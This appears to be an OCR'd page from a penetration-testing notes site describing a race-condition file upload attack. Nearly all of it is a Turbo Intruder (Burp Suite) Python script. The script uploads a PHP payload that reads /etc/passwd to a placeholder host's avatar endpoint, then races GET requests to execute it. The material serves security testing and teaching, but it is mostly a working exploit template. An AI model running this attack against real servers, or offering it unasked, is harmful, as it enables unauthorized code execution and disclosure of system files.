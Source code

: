 ## [Race Condition Attack](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#race-condition-attack)

We might be able to bypass/execute payload using race condition.  
We can easily achieve that with **Turbo Intruder** in **Burp Suite**.

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                        concurrentConnections=10,)

    request_post = '''POST /avatar/upload HTTP/1.1
Host: vulnerable.com
...
...
Connection: close

------abcdefghi
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk--

'''

    request_get = '''GET /files/avatars/exploit.php HTTP/1.1
Host: vulnerable.com
...
...
Connection: close


'''

    engine.queue(request_post, gate='race1')
    for i in range(5):
        engine.queue(request_get, gate='race1')


    engine.openGate('race1')
    engine.complete(timeout=60)
    


def handleResponse(req, interesting):
    table.add(req)
```

  